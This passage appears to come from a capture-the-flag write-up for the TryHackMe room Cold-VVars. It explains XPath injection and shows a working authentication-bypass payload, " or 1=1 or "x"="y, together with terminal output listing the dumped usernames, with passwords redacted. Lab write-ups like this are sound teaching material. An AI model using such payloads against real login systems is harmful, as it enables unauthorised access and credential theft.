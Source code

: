 ```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|16:59:29(HKT)]
└> python3 login.py
[INFO] Payload: hi
[INFO] Username or Password Wrong
```

Nope.

Hmm... How about XPath (XML Path Language) injection?

XPath injection vulnerabilities arise when user-controllable data is incorporated into XPath queries in an unsafe manner. An attacker can supply crafted input to break out of the data context in which their input appears and interfere with the structure of the surrounding query.

Depending on the purpose for which the vulnerable query is being used, an attacker may be able to exploit an XPath injection flaw to read sensitive application data or interfere with application logic.

**If the application doesn't filter any XPath metacharacters such as `"'/@=*[](and)`, it's very likely to be vulnerable to XPath injection.**

According to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection#exploitation), we can use these payloads:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Cold-VVars/images/Pasted%20image%2020230120173216.png)

**After some testing, I found this payload worked:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:33:08(HKT)]
└> python3 login.py
[INFO] Payload: " or 1=1 or "x"="y
[INFO] Username Password<br>Tove             {Redacted}<br>Godzilla             {Redacted}<br>SuperMan             {Redacted}<br>ArthurMorgan             {Redacted}<br>
```
